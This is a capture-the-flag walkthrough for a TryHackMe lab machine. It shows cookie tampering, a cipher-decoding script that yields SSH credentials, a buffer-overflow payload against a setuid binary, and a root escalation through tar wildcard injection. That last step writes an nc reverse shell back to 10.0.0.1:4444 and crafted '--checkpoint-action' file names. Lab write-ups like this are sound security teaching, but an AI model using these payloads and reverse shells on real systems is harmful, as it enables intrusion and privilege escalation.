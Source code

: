 # **Anonymous Playground**
## **gathering informations**

* **nmap**

    ```sh
    sudo nmap -sS -sC -sV -v <MACHINE_IP>
    ```

  * -Pn: Disables host discovery.
    
  * -sV: Performs version detection for the services.
    
  * -sC: Performs a script scan using default scripts available in NMAP.
    
  * -v: Provides verbose details about the NMAP scan

the scan found two open posts port 80(http) and port 22(ssh) decided to check the website hosted on port 80, I found the home page and a page called operatives i found a list of what appear to be usernames ([sp00ky](https://tryhackme.com/p/Sq00ky) help in room creation)

![usernames](media/list.png)

i found "/zYdHuAKjP" in nmap results

  ![/zYdHuAKjP](media/nmap.png)
 
when i open it on port 80 i found this page that has access denied

  ![denied](media/denied.png)

Using the developer tools in firefox, I was able to find a cookie called access which has it’s value set to denied

  ![cookie](media/cookie.png)

I changed this value to granted, and then reloaded the page. This worked and I was presented with a new message on the web page.

  ![granted](media/granted.png)

## **Decoding The Cipher**

It looks like there is some kind of cipher encrypted message on the page which looks like possible credentials (i.e. username::password). After spending some time on trying to decipher the message, I decided to look at the hint 

**Hint**: You’re going to want to write a **Python** script for this. **‘zA’ = ‘a’**

According to the hint, “zA = a”. After a brain storming, I realized that if you change the letters to their ordered numerical position in the alphabet and added them together, then you would get a new value which would represent the ordered numerical position of another letter in the alphabet. The examples below shows this.
  ```
  # EXAMPLE 1
  'z' = 26 # 26th letter in the alphabet
  'A' = 1 # 1st letter in the alphabet(26 + 1) % 26 = 1 = 'a'
  
  # EXAMPLE 2
  'h' = 8
  'E' = 5(8 + 5) % 26 = 13 = 'm'
  
  N.B. Mod (i.e. '%') 26 is used since there are only 26 letters in the alphabet.
  ```
It is possible to perform these calculations manually but I decided to write a simple python script to do it with the help of some online sources

``` python
#! /bin/python3.8

def deciphering(str):
    list1= []
    a = ""
    for i in str:
        list1.append((ord(i) & 31))

    res = []

    for ele in range(0, len(list1), 2):
        res.append((list1[ele] + list1[ele + 1]) % 26)

    for i in range(len(res)):
        tmp = chr(res[i] + 64).lower()
        print(tmp, end=" ")

username = "hEzAdCfHzA"
deciphering(username)
print("::", end=" ")
password = "hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN"
deciphering(password)
```
Running this script gives me a username and password. If I look at the list of operatives seen earlier when examining the website, I can also see that the username is present in the list

  ![username&password](media/username&password.png)

Using these credentials, I can SSH into the target machine and retrieve the first user flag.

## **User Privilege Escalation**

I found a binary executable called “**hacktheworld**” and a text file called “**note_from_spooky.txt**” in the **magna user’s home directory**. The text file contains the message seen in the image below.

  ![message](media/message.png)

I decided to use scp to copy the file to my local machine for further analysis.
```sh
scp magna@10.10.77.16:/home/magna/hacktheworld
```
Using Ghidra, I started examining the binary by looking at it’s main function. The code creates a char buffer of 64 bytes in size. The program then uses the function “gets()” to take my input. This vulnerable C function can be exploited to cause a buffer overflow.

  ![main](media/main.png)

I found a second function called “call_bash”, which is not referenced in the main function. This function prints several messages before using the function “setuid()” to set the effective user ID of the calling process. A new shell is then created under the set user ID.

  ![call_bash](media/call_bash.png)

I can exploit the vulnerable C function “gets()” to cause a buffer overflow and overwrite the return address on the stack with the address of the “call_bash” function. To find the size of the buffer and how many “A” I would need to overwrite it, I used python to supply input and identify the exact amount of “A” that would cause the program to crash. This involves some trial and error.

  ![buff1](media/buff1.png)

I found supplying 72 “A” would cause the segmentation fault to occur and anything less would not result in the program crashing. Next, I used “readelf” and “grep” to find the memory address of the “call_bash” function.
```sh
readelf -s hacktheworld | grep -i "call_bash"
```
This provided the following address seen below for the function “call_bash”.

  ![call_bash_addr](media/call_bash_addr.png)

I can now attach this memory address in hex format, while still keeping the endianness of the function written in memory, to the end of my 72 “A”

* **python2** :
  ```sh
  python2 -c 'print "A"*72 + b"\x58\x06\x40\x00\x00\x00\x00\x00"' | ./hacketheworld
  ```
* **python3** :
  ```sh
  python3 -c 'print("A"*72 + "\x58\x06\x40\x00\x00\x00\x00\x00")' | ./hacketheworld
  ```
This successfully calls the function but I do not get an escalated shell as expected. Instead, I get a segmentation fault.

  ![buff2](media/buff2.png)

After spending sometime trying to figure out why I couldn’t get the exploit to work, I came across an explanation provided by LiveOverflow (see references). When I exploit the program to create a shell, the shell is executed but doesn’t have any input so the shell ends up just exiting. To get around this, I can combine my exploit with the command cat as seen below.


* **python2** :
  ```sh
  (python2 -c 'print "A"*72 + b"\x58\x06\x40\x00\x00\x00\x00\x00"' ; cat) | ./hacketheworld
  ```
* **python3** :
  ```sh
  (python3 -c 'print("A"*72 + "\x58\x06\x40\x00\x00\x00\x00\x00")'; cat) | ./hacketheworld
  ```
This works and I have escalated my privileges successfully to the user spooky.

  ![spooky](media/spooky.png)

I use python to import the pty module and create a fully interactive TTY shell as seen below.
```sh
python -c 'import pty; pty.spawn("/bin/sh")'
```
After this, I navigate to the user spooky’s home directory and get the second user flag.

## **Root Privilege Escalation**

Now that I have both user flags, I started looking for anyway to escalate my privileges to root. While looking for privilege escalation exploits, I decided to check if there were any interesting cronjobs running.

  ![crontab](media/crontab.png)

I saw an interesting cronjob being ran by the user root. This cronjob executes a series of commands which archives all the files located in the user spooky’s home directory into a tar file. After searching for a way to escalate my privileges using a tar file, I came across an article called “Exploiting Wildcard for Privilege Escalation” (see references). In this article, I discovered how I could escalate my privileges using a Tar Wildcard Injection by entering the following commands.

```sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f" > shell.sh

echo "" > "--checkpoint-action=exec=sh shell.sh"

echo "" > --checkpoint=1
```
The commands work as follows:

* Create a reverse shell and store it in a file called shell.sh.
* –checkpoint[=NUMBER] show progress messages every Numbers record (default 10).
* –checkpoint-action=ACTION execute ACTION on each checkpoint. Runs the file shell.sh after the first file is archived. Since the tar command is running as root due to crontab, this has the effect of spawning a netcat shell and sending it to the attack platform on port 4444.

Next, I setup a netcat listener on my host device for any incoming connections on port 4444.
```sh
nc -lvnp 4444
```
After a few minutes, I get a reverse shell with root privileges. I can then change to the root directory and get the final root user flag

![root](media/root.png)